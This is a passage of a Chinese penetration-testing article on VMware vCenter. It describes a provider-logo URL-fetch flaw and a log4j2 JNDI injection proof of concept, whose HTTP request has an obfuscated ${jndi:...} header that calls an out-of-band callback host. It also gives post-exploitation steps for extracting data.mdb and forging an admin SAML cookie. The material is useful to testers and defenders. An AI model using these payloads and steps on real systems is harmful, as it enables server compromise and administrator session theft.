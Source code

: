 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDoe24RHmibicXgDnzK4gOickpsBTK6p21kx5KtrKQHOkQQje7792SKeViahg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
读取 postgresql 配置文件：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDo0edSyz2MZ7sJdFyJbeUjBibS7Qtiadvo3e0sZANRicialOqpwctYlrflOg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091652926.png-water_print")  
#### 2.6.2 漏洞分析  
  
漏洞 url 为 /ui/vcav-bootstrap/rest/vcav-providers/provider-logo  
，通过 500 错误获取代码调用栈，最后在 ProvidersController.getProviderLogo  
 执行时出错。定位到相关 jar 包：/etc/vmware/vsphere-ui/cm-service-packages/com.vmware.cis.vsphereclient.plugin/com.vmware.h4.vsphere.client-0.4.1.0/plugins/h5-vcav-bootstrap-service.jar  
  
com.vmware.h4.vsphere.ui.bootstrap.controller.ProvidersController.getProviderLogo()  
 函数代码比较简单，通过 URLConnection  
 读取 URL 并解析。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDopSSibBhHtXbrjHl8YRDtPw5UqR8vMjlB86CBZsW6niaXR40icrH8Fm27A/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091611840.png-water_print")  
### 2.7 log4j2 JNDI 注入  
  
VMware 的产品同样也受 log4j2 漏洞的影响，具体可以参考：VMSA-2021-0028。  
  
POC：  
  
/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-log4j-jndi-rce.yaml  
```
GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1
Host: {{Hostname}}
X-Forwarded-For: ${jndi:${lower:d}n${lower:s}://${env:hostName}.{{interactsh-url}}}
```  
  
具体漏洞成因在此就不再赘述。  
## 3 后渗透测试  
### 3.1 SAML 证书登录  
  
vSphere 5.0 版本引入了 SSO，支持使用 SAML 作为授权服务支持。当用户登录服务时，该服务会将身份验证请求转发给 SAML 。SAML 验证用户凭据是否正确以及他们是否有权访问指定的服务。  
  
在 vCenter 中从 /storage/db/vmware-vmdir/data.mdb  
 提取 IdP 证书，为管理员用户创建 SAML 请求，最后使用 vCenter server 进行身份验证并获得有效的管理员 cookie。  
  
首先需要从 vCenter 获得数据库文件：  
  
Linux：/storage/db/vmware-vmdir/data.mdb  
  
Windows：C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDohWLBvryhxeP5Xdj4cibNXuguOnNtGoXBz2vAcUqN16bZjOMHY6zTRwQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091200235.png-water_print")  
  
利用 SAML 解密脚本生成 Cookie：  
